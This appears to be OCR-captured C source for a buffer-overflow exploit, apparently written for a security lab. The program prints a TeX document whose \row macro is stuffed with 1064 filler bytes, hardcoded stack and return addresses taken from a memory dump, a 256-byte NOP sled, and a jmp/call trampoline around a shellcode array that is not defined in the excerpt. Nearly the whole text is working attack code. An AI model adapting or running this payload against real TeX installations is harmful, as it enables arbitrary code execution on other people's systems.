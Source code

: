     int main(){

      int i;

      printf("\\def\\row#1{");

      //Firstly, adding all As in the definition
      for(i=0;i<1064;i++)
        putchar('A');

      //Based on the memory values obtained after debugging, args corresponds to

      for (i = 0;i < 8;++i) {
        putchar(0x40);
        putchar(0x73);
        putchar(0x08);
        putchar(0x08);
      }

      putchar(0x94);
      putchar(0xf0);
      putchar(0xff);
      putchar(0xbf);

      for (i = 0;i < 2;++i) {
        putchar(0xa0);
        putchar(0x9a);
        putchar(0x08);
        putchar(0x08);
      }

      //For hitting the smasher, we will have to add the following values which we got from the dump
      for (i = 0;i < 5;++i) {
        putchar(0x94);
        putchar(0xf0);
        putchar(0xff);
        putchar(0xbf);
      }

      //Adding all the NOPs
      for (i = 0;i < 256;++i)
        putchar(0x90);

      putchar(0xeb);
      putchar(sizeof(values));

      for (i = 0;i < sizeof values;++i)
        putchar(values[i]);

      putchar(0xe8);

      putchar(251 - sizeof values);

      putchar(0xff);
      putchar(0xff);
      putchar(0xff);

      printf("}\n");
      printf("\\begin{document}\n");
      printf("\\row a\n");
      printf("\\end{document}\n");
    }